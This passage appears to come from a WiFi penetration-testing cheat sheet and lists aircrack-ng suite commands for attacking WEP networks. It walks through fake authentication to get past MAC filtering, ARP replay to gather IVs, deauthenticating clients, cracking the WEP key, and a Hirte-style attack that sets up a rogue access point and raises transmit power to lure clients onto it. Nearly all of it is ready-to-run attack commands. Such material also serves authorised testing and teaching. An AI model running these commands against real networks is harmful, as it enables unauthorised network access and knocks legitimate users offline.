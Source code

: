 If MAC address filtering is active, do a fake authentication to a specified WiFi network with an existing MAC address:

```fundamental
aireplay-ng --fakeauth 0 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

To monitor the number of captured IVs, run `airodump-ng` against a specified WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start a standard ARP request replaying against a specified WiFi network:

```fundamental
aireplay-ng --arpreplay wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

[Optional] Deauthenticate clients from a specified WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF replay_arp*.cap
```

### Hitre Attack

This attack targets clients, not wireless access points. You must know the SSID of your target WiFi.

[Optional] Set up a fake WEP WiFi network if the real one is not present:

```fundamental
airbase-ng -W 1 -N wlan0mon -c 8 --essid essid -a FF:FF:FF:FF:FF:FF
```

If needed, turn up a wireless network interface power to missassociate clients to the fake WiFi network, see how in [Configuration](#1-configuration).

Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start replaying packets to clients within your range:

```fundamental
aireplay-ng --cfrag -D wlan1 -e essid -h FF:FF:FF:FF:FF:FF
```

[Optional] Deauthenticate clients from the real/fake WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```
